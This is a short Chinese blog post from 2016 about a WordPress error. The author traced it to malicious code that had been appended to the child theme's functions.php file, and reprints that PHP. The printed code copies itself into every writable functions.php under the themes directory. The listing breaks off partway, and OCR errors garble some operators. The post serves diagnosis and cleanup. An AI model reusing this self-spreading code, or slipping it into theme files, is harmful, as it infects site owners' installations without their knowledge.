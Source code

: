 ```yaml
---
layout: post
title: 用子主题functions.php添加自定义功能后访问网站报错解决方法
date: 2016-06-04
tags: ["functions.php报错","functions.php追加恶意代码","子主题修改","燕衔春泥"]
---
```




这真是一个坑、深坑啊。。





在为"Twenty Sixteen"添加子主题时，在functions.php添加个功能后，访问网站，第一次还可以正常访问，再刷新后就报错了，试了无数次，发现原因竟然是子主题functions.php文件竟然无缘无故多了好多代码，于是百度寻求方法，果然在欲思博客找到" [这篇文章](http://yusi123.com/3585.html)"。





原因竟然是主题中的"functions.php"文件被恶意代码感染了，按照文中提示，将所有的"functions.php"中的恶意代码删除，ok，终于正常了，现将恶意代码贴出：





    <?php
    function _verify_isactivate_widgets(){
     $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
     $output=strip_tags($output, $allowed);
     $direst=_get_allwidgetscont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
     if (is_array($direst)){
     foreach ($direst as $item){
     if (is_writable($item)){
     $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
     $cont=file_get_contents($item);
     if (stripos($cont,$ftion) === false){
     $seprar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
     $output .= $before . "Not found" . $after;
     if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
     $output=rtrim($output, "\n\t"); fputs($f=fopen($item,"w+"),$cont . $seprar . "\n" .$widget);fclose($f); 
     $output .= ($showsdots && $ellipsis) ? "..." : "";
     }
     }
     }
     }
     return $output;
    }
    function _get_allwidgetscont($wids,$items=array()){
     $places=array_shift($wids);
     if(substr($places,-1) == "/"){
     $places=substr($places,0,-1);
     }
     if(!file_exists($places) '' !is_dir($places)){
     return false;
     }elseif(is_readable($places)){
     $elems=scandir($places);
     foreach ($elems as $elem){
     if ($elem != "." && $elem != ".."){
     if (is_dir($places . "/" . $elem)){
     $wids[]=$places . "/" . $elem;
     } elseif (is_file($places . "/" . $elem)&& 
     $elem == substr(__FILE__,-13)){